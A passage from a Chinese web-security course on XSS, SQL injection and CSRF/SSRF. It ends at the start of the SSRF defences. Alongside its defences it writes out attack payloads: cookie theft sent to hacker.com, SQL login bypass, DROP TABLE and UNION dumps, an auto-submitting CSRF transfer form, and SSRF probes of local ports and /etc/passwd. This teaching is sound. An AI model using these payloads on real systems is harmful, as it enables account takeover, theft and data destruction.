那么和上述例子一样，在基于 DOM 的 XSS 中，黑客也可以通过插入一段<script>alert('xss');</script>来执行指定的 JavaScript 脚本。基于 DOM 的XSS 总体流程如下图所示。可以看到，这个流程其实和反射型 XSS 一致，只是不需要经过服务端了而已。 


#### 持久型 XSS

你可以回想一下，当你在网页中搜索一个关键词时，实际上与这个关键词相关的所有搜索结果都会被展示出来。一旦这些搜索结果中，包含黑客提供的某个恶意 JavaScript 脚本，那么只要我们浏览了这个网页，就有可能会执行这些脚本。这就是持久型 XSS。因为这些恶意的搜索结果，会长期保存在服务端数据库中，所以它又叫作存储型 XSS。在应用中，存储用户的输入并对它们进行展示的地方，都可能出现持久型 XSS。比如：搜索结果、评论、博文等等。 

有了前面的铺垫，持久型 XSS 的产生过程就很好理解了，具体我就不细说了，我还是把总体流程画了一张图，你可以仔细看看。 


相比前面两种 XSS 攻击来说，持久型 XSS 往往具备更强的危害性。因为对于一个反射型或者基于 DOM 的 XSS 来说，需要黑客诱导用户点击恶意的 URL，才能够成功地在用户浏览器上执行 JavaScript 脚本。这对黑客在诱导用户操作方面的能力提出了考验：并不是所有的用户都是小白，一些有经验的用户会在点击链接前进行一定的考虑。

而持久型 XSS 则不同，它是将恶意的 JavaScript 脚本写入到了正常的服务端数据库中，因此，只要用户正常的使用业务功能，就会被注入 JavaScript 脚本。所以说，持久型 XSS 在传播速度和传播范围上，会远远超出其他类型的 XSS。


### 通过 XSS 攻击，黑客能做什么

我们知道，这 3 种 XSS 攻击，都是因为黑客在用户的浏览器中执行了恶意的 JavaScript 脚本。那么执行这些 JavaScript 脚本有什么样的危害呢？我把这些危害总结了一下，可以分为下面几种。

#### 窃取 Cookie

从上面的例子中，我们可以看到，黑客可以窃取用户的 Cookie。因为黑客注入的JavaScript 代码是运行在 server.com 这个域名下的，因此，黑客可以在 JavaScript 中通 过 document.cookie  获得 Cookie 信息。

另外，需要我们注意的是，受SOP（Same Origin Policy，同源策略）保护，我们在server.com 中是无法直接向 hacker.com 发送 GET 或者 POST 请求的。这也是为什么，在上面的例子中，我们需要通过 window.location 来执行跳转操作，间接地将 Cookie 信息发送出去。除了 window.location 之外，我们还可以通过加载 JavaScript 文件、图片等方式，向 attacker.com 发送带有 Cookie 的 GET 请求。


#### 未授权操作

除了窃取敏感信息以外，黑客还可以利用 JavaScript 的特性，直接代替用户在 HTML 进行各类操作。

在文章开头，我们提到的微博 XSS 攻击事件中，黑客就利用 JavaScript 脚本，让用户发送了一个微博，微博中同时还带有反射型 XSS 的链接。这样一来，每个点击链接的用户都会通过微博的形式，诱导更多的用户点击链接，一传十、十传百，造成大范围的传播。 


#### 按键记录和钓鱼

窃取 Cookie 和未授权操作都是我们很容易想到的危害，除此之外，JavaScript 还能做什么呢？

JavaScript 的功能十分强大，它还能够记录用户在浏览器中的大部分操作。比如：鼠标的轨迹、键盘输入的信息等。也就是说，你输入的账号名和密码，都可以被 JavaScript 记录下来，从而被黑客获取到。

另外，即使某个存在 XSS 漏洞的页面不具备任何输入框，黑客还可以通过修改 DOM，伪造一个登录框，来诱导用户在本不需要登录的页面，去输入自己的用户名和密码。这也是“钓鱼”的一种形式，在这个过程中用户访问的域名是完全正常的，只是页面被篡改了，所以具备更高的迷惑性。


### 如何进行 XSS 防护

认识到 XSS 的危害之后，作为开发人员，我们最应该掌握的是，如何避免在开发过程中出现 XSS 漏洞。接下来我们就来看一看，具体有哪些防护方法。 

#### 验证输入 OR 验证输出

防护的核心原则是：一切用户输入皆不可信。你的第一反应一定是，这很好实现啊，当接收到用户的输入时，我们就进行验证，这不就做到了吗？实际上并不是这么简单的，我们还是通过搜索这个例子来看。在用户点击“搜索”按钮之后，如果我们马上对他输入的内容进行验证，这样就会产生两个问题。

1. 你将无法保存用户的原始输入信息。这样一来，当出现了 Bug 或者想要对黑客行为进行溯源时，你只能“推断”，而不能准确地获取用户的原始输入。
2. 用户的内容可能会被多种语言获取和使用，提前编码或者处理，将产生未知的问题。比如，在旧版本的 PHP 中，就存在“magic quotes”的漏洞，因为 PHP 无法处理某些编码的字符而导致崩溃。

因此，我更推荐在需要输出的时候去进行验证，即当需要展示的时候，我们再对内容进行验证，这样我们就能够根据不同的环境去采取不同的保护方案了。

在 HTML 中，常见的 XSS 注入点我已经总结好了，你可以看下面这个表格： 




#### 编码

现在，我们已经理解了，XSS 防护的核心原则就是验证，那具体该怎么去做验证呢？我认为，我们可以优先采用编码的方式来完成。所谓编码，就是将部分浏览器识别的关键词进行转换（比如 < 和 >），从而避免浏览器产生误解。对于客户端来说，编码意味着，使用JavaScript 提供的功能对用户内容进行处理。具体的方法我也总结了一下，你可以看这个表格。 



对于最后一个注入点，即在 JavaScript 中进行注入，目前还没有内置的编码方式来对它提供保护。你当然可以通过诸如 URL 编码等方式进行编码，但这有可能对应用的自身逻辑产生影响。因此，JavaScript 中的注入并不适合通过编码来进行保护。


#### 检测和过滤

但是，在很多时候，编码会对网页实际的展现效果产生影响。比如，原本用户可能想展示一个 1>0，却被编码展示成了 1&gt 0。尽管网络环境安全了，却对用户造成了困扰。那么，我们还可以采取哪些方法进行验证呢？接下来我就为你介绍一下检测和过滤。

首先，我们需要对用户的内容进行检测。在这里，我们可以采用黑名单和白名单的规则。黑名单往往是我们最直接想到的方法：既然黑客要插入<javascript>标签，那么我们就检测用户内容中是否存在<javascript>标签就好了。 

但是，黑客的攻击方法是无穷无尽的。你检测了<javascript>，黑客就可以改成<JavaScript>（因为 HTML 标签对大小写不敏感），甚至有些时候还能够编码成 &\#106;ascript等等。另外，HTML5 的发展速度很快，总是有新的标签被开发出来，这些新标签中也可能包含新的注入点。因此，黑名单的更新和维护过程，是需要我们和黑客进行长期对抗的过程。

所以，在检测中，我更**推荐使用白名单的规则**。因为白名单的规则比较简单，并且十分有效。比如，在只输入一个分数的地方，规定只有整型变量是合法的。这样一来，你就能够检测出 99.99% 的攻击行为了。

说完了检测，那当发现某个用户的内容可能存在 XSS 攻击脚本时，我们该怎么处理呢？这个时候，处理选项有两个：拒绝或者过滤。毫无疑问，拒绝是最安全的选项。一旦你发现可能的 XSS 攻击脚本，只要不将这段用户内容展现出来，就能避免可能的攻击行为。

但是，拒绝会阻碍用户的使用流程，从用户体验的角度上来考虑的话，**过滤会更被用户所接受**。上面提到的编码就属于一种过滤的方式。除此之外，我们也可以直接对敏感字符进行替换删除等。需要注意的是，在替换的时候，一定不能采取黑名单的形式（比如：将javascript 进行删除，那黑客就可以通过 JavaScript 来绕过），而是应该采取白名单的形式（比如，除了 div 之外的标签全部删除）。

同样地，过滤的流程也必须彻底。比如，我看到过有人采用下面这行字符串来过滤javascript 标签： 

```javascript
$str=str_replace('<javascript>','',$str);
```

但黑客只需要将 str 的值变成<java<javascript>script>就可以了，因为str_replace('<javascript>','','<java<javascript>script>')的结果就是<javascript>。 


#### CSP

面对 XSS 这样一个很普遍的问题，W3C 提出了 CSP（Content Security Policy，内容安全策略）来提升 Web 的安全性。所谓 CSP，就是在服务端返回的 HTTP header 里面添加 一个 Content-Security-Policy 选项，然后定义资源的白名单域名。浏览器就会识别这个字段，并限制对非白名单资源的访问。

配置样例如下所示： 

```javascript
Content-Security-Policy:default-src ‘none’; script-src ‘self’;
connect-src ‘self’; img-src ‘self’; style-src ‘self’;
```

那我们为什么要**限制外域资源的访问**呢？这是因为 XSS 通常会受到长度的限制，导致黑客无法提交一段完整的 JavaScript 代码。为了解决这个问题，黑客会采取引用一个外域 JavaScript 资源的方式来进行注入。除此之外，限制了外域资源的访问，也就限制了黑客通过资源请求的方式，绕过 SOP 发送 GET 请求。目前，CSP 还是受到了大部分浏览器支持的，只要用户使用的是最新的浏览器，基本都能够得到很好的保护。


### 总结

好了，我们讲了 XSS 的攻击类型、会产生的影响，以及如何对它进行防护。

简单来说，XSS 就是利用 Web 漏洞，在用户的浏览器中执行黑客定义的 JavaScript 脚本，这样一种攻击方式。根据攻击方式的不同，可以分为：反射型 XSS、基于 DOM 的XSS 和存储型 XSS。通过在用户的浏览器中注入脚本，黑客可以通过各种方式，采集到用户的敏感信息，包括：Cookie、按键记录、密码等。

预防 XSS 主要通过对用户内容的验证来完成。首先，我推荐在需要展示用户内容的时候去进行验证，而不是当用户输入的时候就去验证。在验证过程中，我们优先采用编码的方式来完成。如果编码影响到了业务的正常功能，我们就可以采用白名单的检测和过滤方式来进行验证。除此之外，我们可以根据业务需要，配置合适的 CSP 规则，这也能在很大程度上降低 XSS 产生的影响。

另外，在这里，我把本节课的重点内容梳理了一个脑图。你可以根据它来查漏补缺，加深印象 。


### 思考题

好了，通过今天的学习，相信你已经了解了什么是 XSS 攻击。你可以试着分析一下，文章开头提到的事件中，黑客是利用哪种类型的 XSS 发起的攻击呢？我们应该怎么进行防御呢？

另外，在事件中我也描述了开发“甩锅”的场景：前端也好、后端也好，开发人员都不认为是自己的问题。那么，你认为出现这种安全事件，应该由谁来“背锅”呢？是开发、运维还是安全负责人呢？ 


## SQL注入攻击

在上一讲中，我们介绍了 XSS 攻击。今天，我们来介绍另外一种常见的 Web 攻击：SQL注入。

在讲正文之前，让我们先来看一个案例。某天，当你在查看应用的管理后台时，发现有很多异常的操作。接着，你很快反应过来了，这应该是黑客成功登录了管理员账户。于是，你立刻找到管理员，责问他是不是设置了弱密码。管理员很无辜地表示，自己的密码非常复杂，不可能泄漏，但是为了安全起见，他还是立即修改了当前的密码。奇怪的是，第二天，黑客还是能够继续登录管理员账号。问题来了，黑客究竟是怎么做到的呢？你觉得这里面的问题究竟出在哪里呢？你可以先自己思考一下，然后跟着我开始今天的学习！ 

### SQL 注入攻击是如何产生的

在上一讲中，我们讲了，XSS 是黑客通过篡改 HTML 代码，来插入并执行恶意脚本的一种攻击。其实，SQL 注入和 XSS 攻击很类似，都是黑客通过篡改代码逻辑发起的攻击。那么，不同的点是什么？SQL 注入到底是什么呢？

通常来说，我们会将应用的用户信息存储在数据库中。每次用户登录时，都会执行一个相应的 SQL 语句。这时，黑客会通过构造一些恶意的输入参数，在应用拼接 SQL 语句的时候，去篡改正常的 SQL 语意，从而执行黑客所控制的 SQL 查询功能。这个过程，就相当于黑客“注入”了一段 SQL 代码到应用中。这就是我们常说的 SQL 注入。

这么说可能还是有点理论，不够具体。接下来，我就以几个简单而又经典的示例，来给你介绍两种主要的 SQL 注入方式。

#### 修改 WHERE 语句 

我们先来看一个例子。现在有一个简单的登录页面，需要用户输入 Username 和Password 这两个变量来完成登录。具体的 Web 后台代码如下所示： 

```python
uName = getRequestString("username");
uPass = getRequestString("password");
sql = 'SELECT * FROM Users WHERE Username ="' + uName + '" AND Password = "' + uPass + '"'
```

当用户提交一个表单（假设 Username 为 admin，Password 为 123456）时，Web 将执行下面这行代码： 

```sql
SELECT * FROM Users WHERE Username ="admin" AND Password ="123456"
```

用户名密码如果正确的话，这句 SQL 就能够返回对应的用户信息；如果错误的话，不会返回任何信息。因此，只要**返回的行数≥1，就说明验证通过**，用户可以成功登录。 

所以，当用户正常地输入自己的用户名和密码时，自然就可以成功登录应用。那黑客想要在不知道密码的情况下登录应用，他又会输入什么呢？他会输入 " or ""="。这时，应用的数据库就会执行下面这行代码： 

```sql
SELECT * FROM Users WHERE Username ="" AND Password ="" or ""=""
```

我们可以看到，WHERE 语句后面的判断是通过 or 进行拼接的，其中""=""的结果是true。那么，当有一个 or 是 true 的时候，最终结果就一定是 true 了。因此，这个**WHERE 语句是恒为真的**，所以，数据库将返回全部的数据。

这样一来，我们就能解答文章开头的问题了，也就是说，黑客只需要在登录页面中输入 "or ""="，就可以在不知道密码的情况下，成功登录后台了。而这，也就是所谓的“万能密码”。而这个“万能密码”，其实就是通过修改 WHERE 语句，改变数据库的返回结果，实现无密码登录。


#### 执行任意语句 

除此之外，大部分的数据库都支持多语句执行。因此，黑客除了修改原本的 WHERE 语句之外，也可以在原语句的后面，插入额外的 SQL 语句，来实现任意的增删改查操作。在实际工作中，MySQL 是最常用的数据库，我们就以它为例，来介绍一下，任意语句是如何执行的。

在 MySQL 中，实现任意语句执行最简单的方法，就是**利用分号将原本的 SQL 语句进行分割**。这样，我们就可以一次执行多个语句了。比如，下面这个语句在执行的时候会先插入一个行，然后再返回 Users 表中全部的数据。 

```sql
INSERT INTO Users (Username, Password) VALUES("test","000000"); SELECT * FROM Users;
```

接下来，我们来看一个具体的例子。在用户完成登录后，应用通常会通过 userId 来获取对应的用户信息。其 Web 后台的代码如下所示： 

```python
uid = getRequestString("userId");
sql = "SELECT * FROM Users WHERE UserId = " + uid;
```

在这种情况下，黑客只要在传入的 userId 参数中加入一个分号，就可以执行任意的 SQL语句了。比如，黑客想“删库跑路”的话，就令 userId 为 1;DROP TABLE Users，那么，后台实际执行的 SQL 就会变成下面这行代码，而数据库中所有的用户信息就都会被删除。 

```sql
SELECT * FROM Users WHERE UserId = 1；DROP TABLE Users
```

SQL 注入的“姿势”还有很多（比如：没有回显的盲注、基于 INSERT 语句的注入等等），它们的原理都是一样的，都是通过更改 SQL 的语义来执行黑客设定的 SQL 语句。如果你有兴趣，可以通过我前面给出的链接去进一步了解。


### 通过 SQL 注入攻击，黑客能做什么

通过上面对 SQL 注入的简单介绍，我们已经知道，SQL 注入会令 Web 后台执行非常规的SQL 语句，从而导致各种各样的问题。那么通过 SQL 注入攻击，黑客究竟能够干些什么呢？下面我们就一一来看。

#### 绕过验证

在上面的内容中，我们已经介绍过，" or ""=" 作为万能密码，可以让黑客在不知道密码的情况下，通过登录认证。因此，SQL 注入最直接的利用方式，就是绕过验证，也就相当于身份认证被破解了。


#### 任意篡改数据

除了绕过验证，我们在任意语句执行的部分中讲到，SQL 注入漏洞导致黑客可以执行任意的 SQL 语句。因此，通过插入 DML 类的 SQL 语句（INSERT、UPDATE、DELETE、TRUNCATE、DROP 等），黑客就可以对表数据甚至表结构进行更改，这样数据的完整性就会受到损害。比如上面例子中，黑客通过插入 DROP TABLE Users，删除数据库中全部的用户。 


#### 窃取数据

在 XSS 漏洞中，黑客可以通过窃取 Cookie 和“钓鱼”获得用户的隐私数据。那么，在SQL 注入中，黑客会怎么来获取这些隐私数据呢？

在各类安全事件中，我们经常听到“**拖库**”这个词。所谓“拖库”，就是指黑客通过类似SQL 注入的手段，获取到数据库中的全部数据（如用户名、密码、手机号等隐私数据）。最简单的，黑客利用 **UNION 关键词**，将 SQL 语句拼接成下面这行代码之后，就可以直接获取全部的用户信息了。 

```sql
SELECT * FROM Users WHERE UserId = 1 UNION SELECT * FROM Users;
```


#### 消耗资源

通过 第 1 讲对 CIA 三元组的学习，我们知道，除了获取数据之外，影响服务可用性也是黑客的目标之一。

SQL 注入破坏可用性十分简单，可以通过完全消耗服务器的资源来实现。比如，在 Web后台中，黑客可以利用 **WHILE 打造死循环操作**，或者定义存储过程，触发一个无限迭代等等。在这些情况下，数据库服务器因为 CPU 被迅速打满，持续 100%，而无法及时响应其他请求。

总结来说，通过 SQL 注入攻击，黑客可以绕过验证登录后台，非法篡改数据库中的数据；还能执行任意的 SQL 语句，盗取用户的隐私数据影响公司业务等等。所以，我认为，SQL注入相当于让黑客直接和服务端的数据库进行了交互。正如我们一直所说的，应用的本质是数据，黑客控制了数据库，也就相当于控制了整个应用。 


### 如何进行 SQL 注入防护 

在认识到 SQL 注入的危害之后，我们知道，一个简单的 SQL 查询逻辑，能够带来巨大的安全隐患。因此，我们应该做到在开发过程中就避免出现 SQL 注入漏洞。那具体应该怎么做呢？接下来，我会为你介绍 3 种常见的防护方法，它们分别是：使用PreparedStatement、使用存储过程和验证输入。

#### 使用 PreparedStatement

通过合理地使用 PreparedStatement，我们就能够避免 99.99% 的 SQL 注入问题。

当数据库在处理一个 SQL 命令的时候，大致可以分为两个步骤： 

- 将 SQL 语句解析成数据库可使用的指令集。我们在使用 **EXPLAIN 关键字**分析 SQL 语句，就是干的这个事情；
- 将变量代入指令集，开始实际执行。之所以在批量处理 SQL 的时候能够提升性能，就是因为这样做避免了重复解析 SQL 的过程。 

那么 PreparedStatement 为什么能够避免 SQL 注入的问题呢？

这是因为，SQL 注入是在解析的过程中生效的，用户的输入会影响 SQL 解析的结果。因此，我们可以通过使用 PreparedStatement，**将 SQL 语句的解析和实际执行过程分开**，只在执行的过程中代入用户的操作。这样一来，无论黑客提交的参数怎么变化，数据库都不会去执行额外的逻辑，也就避免了 SQL 注入的发生。

在 Java 中，我们可以通过执行下面的代码将解析和执行分开： 

- HackerMeCode\SQLInject\src\main\JavaPrepareStatement.java

```java
String sql = "SELECT * FROM Users WHERE UserId = ?";
PreparedStatement statement = connection.prepareStatement(sql);
statement.setInt(1, userId);
ResultSet results = statement.executeQuery();
```

为了实现相似的效果，在 PHP 中，我们可以使用 PDO（PHP Data Objects）；在 C#中，我们可以使用 OleDbCommand 等等。

这里有一点需要你注意，前面我们说了，通过合理地使用 PreparedStatement 就能解决99.99% 的 SQL 注入问题，那到底怎么做才算“合理地”使用呢？ 

PreparedStatement 为 SQL 语句的解析和执行提供了不同的“方法”，你需要分开来调用。但是，如果你在使用 PreparedStatement 的时候，还是通过字符串拼接来构造 SQL语句，那仍然是将解析和执行放在了一块，也就不会产生相应的防护效果了。我这里给你展示了一个错误案例，你可以和上面的代码进行对比。 

```java
// 通过字符串拼接来构造 SQL语句 的错误示例
String sql = "SELECT * FROM Users WHERE UserId = " + userId;
PreparedStatement statement = connection.prepareStatement(sql);
ResultSet results = statement.executeQuery();
```


#### 使用存储过程

接下来，我们说一说，如何使用存储过程来防止 SQL 注入。实际上，它的原理和使用PreparedStatement 类似，都是通过将 SQL 语句的解析和执行过程分开，来实现防护。区别在于，存储过程防注入是将解析 SQL 的过程，由数据库驱动转移到了数据库本身。还是上述的例子，使用存储过程，我们可以这样来实现： 

```sql
delimiter $$ -- 将语句的结束符号从分号 ; 临时改为两个 $\$(可以是自定义)
CREATE PROCEDURE select_user(IN p_id INTEGER)
BEGIN
    SELECT * FROM Users WHERE UserId = p_id;
END$$
delimiter; -- 将语句的结束符号恢复为分号

call select_user(1);
```


#### 验证输入

在上一节课中，我们讲过，防护的核心原则是，一切用户输入皆不可信。因此，SQL 注入的防护手段和 XSS 其实也是相通的，主要的不同在于： 

- SQL 注入的攻击发生在输入的时候，因此，我们只能在输入的时候去进行防护和验证；
- 大部分数据库不提供针对 SQL 的编码，因为那会改变原有的语意，所以 SQL 注入没有编码的保护方案。 

因此，对所有输入进行验证或者过滤操作，能够很大程度上避免 SQL 注入的出现。比如，在通过 userId 获取 Users 相关信息的示例中，我们可以**确认 userId 必然是一个整数**。因此，我们只需要对 userId 参数，进行一个整型转化（比如，Java 中的 Integer.parseInt，PHP 的 intval），就可以实现防护了。

当然，部分场景下，用户输入的参数会比较复杂。我们以用户发出的评论为例，其内容完全由用户定义，应用无法预判它的格式。这种情况下，应用只能通过对部分关键字符进行过滤，来避免 SQL 注入的发生。比如，在 MySQL 中，需要注意的关键词有 "  %  ’  \  _。

这里我简单地总结一下，在实际使用这些防护方法时的注意点。对于验证输入来说，尤其是在复杂场景下的验证输入措施，其防护效果是最弱的。因此，避免 SQL 注入的防护方法，首要选择仍然是 PreparedStatement 或者存储过程。


### 总结 

SQL 注入就是黑客通过相关漏洞，篡改 SQL 语句的攻击。通过 SQL 注入，黑客既可以影响正常的 SQL 执行结果，从而绕过验证，也可以执行额外的 SQL 语句，对数据的机密性、完整性和可用性都产生影响。

为了避免 SQL 注入的出现，我们需要正确地使用 PreparedStatement 方法或者存储过程，尽量避免在 SQL 语句中出现字符串拼接的操作。除此之外，SQL 注入的防护也可以和XSS 一样，对用户的输入进行验证、检测并过滤 SQL 中的关键词，从而避免原有语句被篡改。

今天的内容比较多，为了方便你记忆，我总结了一个知识脑图，你可以通过它来对今天的重点内容进行复习巩固。 


### 思考题

我们来看一道思考题。假设有下面这样一个语句： 

```sql
SELECT Username FROM Users WHERE UserId = 1;
```

你现在已经知道，WHERE 语句中存在了 SQL 注入的点。那么，我们怎么才能获取到除了Username 之外的其他字段呢？这里我给你一个小提示，你可以先了解一下“盲注”这个概念，之后再来思考这个问题。 

```sql
SELECT Username FROM Users WHERE UserId = 1 ; select * from users;
```


## CSRF/SSRF攻击

前面我们讲了 2 种常见的 Web 攻击：XSS 和 SQL 注入。它们分别篡改了原始的 HTML和 SQL 逻辑，从而使得黑客能够执行自定义的功能。那么除了对代码逻辑进行篡改，黑客还能通过什么方式发起 Web 攻击呢？

我们还是先来看一个例子。在平常使用浏览器访问各种网页的时候，是否遇到过，自己的银行应用突然发起了一笔转账，又或者，你的微博突然发送了一条内容？ 

在我们学习 XSS 之后，你可能会联想到，这是银行或者微博中出现了某个 XSS 漏洞。但问题是，你今天并没有访问过银行或者微博的页面，所以并没有“被 XSS”的机会。这时，你想到，会不会是你今天访问的其他网页里存在一些恶意的攻击，实现了你不知道的转账和发博行为呢？

### CSRF 攻击是如何产生的

我们几乎每天都要用到浏览器，我们的信息也会被**浏览器“保存”**。那我们首先来看一下，浏览器是如何保存你的身份信息的。

当我们在访问一个 Web 页面的时候，并不是我们自己去获取页面信息，而是浏览器去获取了这些信息，并将它们进行了展示。这就说明，你允许浏览器代表你去和 Web 的服务端进行交互。为了能够准确地代表你的身份，浏览器通常会在 **Cookie** 中存储一些必要的身份信息。所以，在我们使用一个网页的时候，只需要在首次访问的时候登录就可以了。

从用户体验上来说，这当然是非常方便的。但是，黑客正是利用这一点，来编写带有恶意JavaScript 脚本的网页，通过“钓鱼”的方式诱导你访问。然后，黑客会通过这些JavaScript 脚本窃取你保存在网页中的身份信息，通过仿冒你，让你的浏览器发起伪造的请求，最终执行黑客定义的操作。而这一切对于你自己而言都是无感知的。这就是CSRF（Cross-Site Request Forgery，跨站请求伪造）攻击。

接下来，我们就**以银行转账为例子**，来详细讲解一下这个攻击过程。当你在银行页面发起一笔转账时，这个过程其实是通过一个转账接口来完成的。这个接口的内容可能包括下面这些内容： 

- 接口地址：http://bank.com/transfer ；
- HTTP 方法：POST；
- 接口参数：to（目标账户）、amount（金额）。 

在转账之前，你肯定进行了一次登录。这样一来，这个转账接口就可以通过你之前存储在Cookie 中的相关字段来完成认证了。所以，这个接口参数中不需要包含任何身份认证相关的信息。也正是因为如此，这个接口满足了 CSRF 攻击的基本条件： 

- 使用 Cookie 进行认证；
- 参数中不包含任何隐私信息。 

于是，黑客可以构造一个如下的空白网页。我们假设这个网页的地址为 hacker.com。 

```html
<html>
<body>
    <form action="http://bank.com/transfer" method="POST">
        <input type="hidden" name="to" value="hacker" />
        <input type="hidden" name="amount" value="10000.00" />
    </form>
    <script>
    	document.forms[0].submit();
    </script>
</body>
</html>
```

在 HTML 中，<script>标签内的 JavaScript 脚本会在打开网页的时候自动执行。因此，一旦用户访问了这个 hacker.com 的页面，它就会自动提交 form 表单，向 http://bank.com/transfer这个接口（假设为转账接口）发起一个 POST 请求。

其中，to 和 amount 这两个参数，代表着用户向黑客的账号转账 10000 元。只要这个用户之前登录过 bank.com，并且账户余额大于 10000 元，那么黑客就能够成功地收到这10000 元的转账了。在这个网页中，<input>的标签带有**“hidden”属性**，所以这整个过程对于用户来说都是**不可见**的。

为了方便你理解，我把这个流程，我画成了一张图，如下所示： 


### 通过 CSRF 攻击，黑客能做什么

和 XSS 一样，CSRF 也可以仿冒用户去进行一些功能操作的请求，比如修改密码、转账等等，相当于绕过身份认证，进行未授权的操作。

值得一提的是，尽管黑客通过 CSRF 能进行的操作没有 XSS 丰富，但 CSRF 在传播和**攻击成本上都低于 XSS**。这也就是说，即使你的网页中没有任何注入漏洞，但只要接口配置不当，就能够被 CSRF 利用。而黑客也只需要在自己的域名中，搭建一个诱导性的网页，就可以让任何访问网页的用户都遭受到 CSRF 攻击。而且，用户每天需要访问大量的网页，根本没有办法确认每一个网页的合法性。而从严格意义上来说，用户根本没有办法防止CSRF 攻击。因此，我们只能从应用本身入手去加强防护。


### 如何进行 CSRF 防护

那究竟该怎么进行 CSRF 防护呢？我们有两种方法。行业内标准的 CSRF 防护方法是**CSRFToken**。 我们先来看这个方法。

通过前面的学习，我们知道，CSRF 是通过自动提交表单的形式来发起攻击的。所以，在前面转账的例子中，黑客可以通过抓包分析出 http://bank.com/transfer 这个接口所需要的参数，从而构造对应的 form 表单。因此，我们只需要在这个接口中，加入一个黑客无法猜到的参数，就可以有效防止 CSRF 了。这就是 CSRF Token 的工作原理。 

它的工作流程，我也总结了一下，如下图所示： 


因为 CSRF Token 是每次用户正常访问页面时，**服务端随机生成返回给浏览器的**。所以，每一次正常的转账接口调用，都会携带不同的 CSRF Token。黑客没有办法进行提前猜测，也就没有办法构造出正确的表单了。

除了 CSRF Token 之外，我们也可以通过**二次验证**来加强防护。

回想一下，当你进行各类支付操作的时候，银行网页通常会要求你**输入支付密码**。你可能会觉得奇怪，明明自己已经登录了，为什么还需要输入一个独立的支付密码呢？这其实和CSRF Token 的原理一样：这个独立的支付密码是需要用户输入的，只存在于用户的记忆中，因此，也是黑客无法获取到的参数。

怎么理解呢？假如说，黑客通过 CSRF 攻击，替你发起了一笔转账。在支付的时候，银行会发起一个全新的页面，让你验证支付密码。这个时候你发现，这个支付请求不是你本人发起的，那你肯定不会输入支付密码来完成验证。所以，在用户进行支付这样的敏感操作时，应用通常会要求用户提供一些私密的信息，就是为了对 CSRF 攻击进行防护。

讲到这里，你现在对 CSRF 的攻击和防护，应该有了一个大概的了解。简单来说，CSRF 其实就是黑客利用浏览器存储用户 Cookie 这一特性，来模拟用户发起一次带有认证信息的请求，比如转账、修改密码等。防护 CSRF 的原理也很简单，在这些请求中，加入一些黑客 无法得到的参数信息即可，比如 CSRF Token 或者独立的支付密码等。掌握了这些内容，其实 CSRF 的知识基本上就差不多了。


### SSRF 攻击是如何产生的

在 CSRF 中，黑客通过诱导用户访问某个网站，让用户的浏览器发起一个伪造的请求。那么，如果服务端发起了这个伪造的请求，又会发生什么呢？

我们知道，服务端也有代理请求的功能：用户在浏览器中输入一个 URL（比如某个图片资源），然后服务端会向这个 URL 发起请求，通过访问其他的服务端资源来完成正常的页面展示。

这个时候，只要黑客在输入中提交一个**内网 URL**，就能让服务端发起一个黑客定义的内网请求，从而获取到内网数据。这就是 SSRF（Server Side Request Forgery，服务端请求伪造）的原理。而服务端作为内网设备，通常具备很高的权限，所以，这个伪造的请求往往因为能绕过大部分的认证和授权机制，而产生很严重的后果。

比方说，当我们在**百度中搜索图片**时，会涉及图片的跨域加载保护，百度不会直接在页面中加载图片的源地址，而是将地址通过 GET 参数提交到百度服务器，然后百度服务器请求到对应的图片，再返回到页面展示出来。 


这个过程中，百度服务器实际上会向另外一个 URL 地址发起请求（比如，上图中的http://s1.sinaimg.cn）。利用这个代理发起请求的功能，黑客可以通过提交一个内网的地址，实现对内网任意服务的访问。这就是 SSRF 攻击的实现过程，也就是我们常说的“**内网穿透**”。 


### 通过 SSRF 攻击，黑客能做什么

了解了 SSRF 攻击的过程之后，我们知道，在服务端不做任何保护措施的情况下，黑客可以利用 SSRF 向内网发起任意的 HTTP 请求。那么，这些请求会产生什么样的后果呢？我总结了一下，主要会有这样两种动作：内网探测和文件读取。

#### 内网探测

我们先来看内网探测。**内外网一般是隔离的**。所以，黑客在外网环境中，是无法知道内网有哪些服务器，这些服务器又分别提供了哪些服务。但是，通过一个加载图片的 SSRF 漏洞，黑客就能够对内网进行探测。这是怎么做到的呢？

在前面百度搜图的例子中，我们请求的地址是：https://image.baidu.com/search/detail?objurl=http://s1.sinaimg.cn/picture.jpg。因为http://s1.sinaimg.cn/picture.jpg 会正常返回一个图片，所以网页会展示出来对应的图片。

我们假定这样一个服务端逻辑：在这个请求过程中，服务端会判断 objurl 返回数据的Content Type 是否为 image/jpeg。那么，可能的返回结果就有三种： 

- “是”，则展示图片； 
- 不是”，则返回“格式错误”；
- 无响应，则返回“找不到图片”。 

基于这三种返回逻辑，黑客可以构造一个恶意的请求地址：https://image.baidu.com/search/detail?objurl=127.0.0.1:3306。如果服务器返回“格式错误”，则代表服务端本地的 3306 端口可用；如果返回“找不到图片”，则代表不可用。

我们知道，3306 是 MySQL 对应的端口号，因此，根据这个返回的信息，黑客就能够知道**服务端本地是否开启了一个 MySQL 服务**。接下来，黑客只需要不断重复这个过程，尝试不同的 IP 和端口号，就能够一点一点探测出整个内网的结构。


#### 文件读取

接下来，我们说一下文件读取。服务器除了对图片的代理不做合法性判断之外，对很多其他的代理也不做判断，而是**直接将代理的结果返回到前端**。我们称这种情况为“**有回显的SSRF**”。在这种情况下，黑客不仅能够知道请求是否成功了，还能够知道具体返回的内容。这时候你肯定会好奇，黑客究竟是怎么做到呢？

在 URI 中，开头的 http:// 和 https:// 代表需要使用什么协议去进行请求。除了 HTTP 之外，**URI** 还有很多种协议可以选择，比如 **file://** 就是直接读取本地的文件。通过输入file://etc/passwd，黑客就能够通过一个请求获取到本地的 passwd 文件，从而知道本地有哪些用户。经过不断地尝试，黑客就能够把整个服务器中的文件内容都给拉取出来，这其中包括密钥、源码等极度敏感的信息。

我曾经就遇到过一个黑客。他通过 SSRF 攻击拿到了服务端的源码，然后通过对源码的分析，找到了一个 SQL 注入的漏洞，再利用 SSRF 发起对内网的 SQL 注入攻击，从而拿到了内网的命令执行权限。 


### 如何进行 SSRF 防护

因为 SSRF 漏洞**起源于业务的正常功能需求**（比如百度图片的图片请求等等）。因此，我们很难真正消除它。尽管如此，我还是会为你介绍几种常见的防护手段，来尽可能地提高应用的安全性。这些常见的手段主要包括：**白名单限制、协议限制和请求端限制**。接下来，我们一一来看。 

